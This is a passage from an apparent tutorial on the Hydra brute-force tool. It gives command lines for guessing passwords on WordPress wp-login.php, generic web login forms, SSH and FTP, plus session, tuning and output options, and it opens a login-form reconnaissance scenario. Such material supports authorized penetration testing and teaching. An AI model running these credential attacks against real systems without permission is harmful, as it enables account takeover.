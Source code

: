 ### WordPress Admin Login
```bash
# WordPress wp-login.php attack
hydra -L users.txt -P passwords.txt 10.10.10.10 http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"
```

## Advanced Options

### Session Management
```bash
# Restore a previous session
hydra -R hydra.restore

# Ignore restore file (start fresh)
hydra -I -l user -P pass ftp://target
```

### Performance Tuning
```bash
# Control parallel tasks (reduce for unstable services)
hydra -l user -P passes.txt ssh://target -t 4

# Wait time between attempts (milliseconds)
hydra -l user -P passes.txt http-post-form "/login:user=^USER^&pass=^PASS^" -w 10
```

### Output Formats
```bash
# JSON output format
hydra -l admin -P passwords.txt ftp://target -b json -o results.json

# Detailed output
hydra -l admin -P passwords.txt ssh://target -vV -o detailed_results.txt
```

## Real-World Scenarios

### Scenario 1: Web Application Login
**Target:** A custom web application at `http://10.10.10.20/login.php`

**Reconnaissance Steps:**
1. Analyze the login form HTML:
```html
<form method="POST" action="auth.php">
    <input type="text" name="uname" id="uname">
    <input type="password" name="pwd" id="pwd">
    <input type="submit" value="Login">
</form>
```
